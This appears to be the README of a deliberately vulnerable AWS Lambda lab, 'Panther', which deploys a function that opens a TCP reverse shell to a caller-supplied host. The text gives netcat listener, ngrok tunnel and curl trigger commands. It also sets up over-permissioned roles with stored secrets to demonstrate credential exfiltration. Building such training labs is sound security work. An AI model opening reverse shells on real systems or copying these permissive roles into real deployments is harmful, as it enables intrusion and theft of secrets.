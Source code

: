 # Puma Prey Panther

Panther is a Node.js function that can be deployed to the AWS to establish a TCP reverse shell for the purposes of introspecting the Lambda container runtime.

## Installing Prerequisites

* [AWS Command Line Interface](https://aws.amazon.com/cli/)
* [Node.js / NPM](https://nodejs.org/en/download/)

## Deploying The Function and Resources

```bash
cd /PATH/TO/panther
aws configure
npm install
export AWS_PROFILE=[Choose your profile]
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for 
future sessions.
npx serverless deploy
```

Record the API key provided in the output:

```bash
Serverless: Stack update finished...
Service Information
service: panther
stage: dev
region: us-east-1
stack: panther-dev
resources: 14
api keys:
  panther: YOUR_API_KEY
```

In addition to deploying the function, this will create a private S3 Bucket with an image. The Lambda role will have unnecessary permissions to access these resources as well as to an AWS Parameter Store path to demonstrate the damage that can be done by exfiltrating credentials from the runtime environment.

To store a secret in the aforementioned Parameter Store path, run the following:

```bash
aws ssm put-parameter --name /panther/database/user --value "panther_user" --type SecureString
aws ssm put-parameter --name /panther/database/password --value "RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu" --type SecureString
```

## Testing in AWS

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/panther --url-id YOUR_API_GATEWAY_ID --api-key YOUR_API_KEY
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Invoke your function, supplying your connection details and API key:

```bash
curl 'https://YOUR_API_GATEWAY_ID.execute-api.us-east-1.amazonaws.com/dev/api/Panther?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'X-API-Key: YOUR_API_KEY'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file, though it cannot be extended past 30 seconds as it is attached to an API Gateway.

## Teardown

```bash
npx serverless remove
```

## Running Locally

```bash
npm start
```

## Testing Locally

```bash
curl 'http://localhost:3000/api/Panther?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER' -H 'x-api-key: offlineKey'
```

## Linting

```bash
go get -u golang.org/x/lint/golint
npm run lint
```

## Serverless AWS NodeJS Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template aws-nodejs --path panther
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/aws/) for more information.
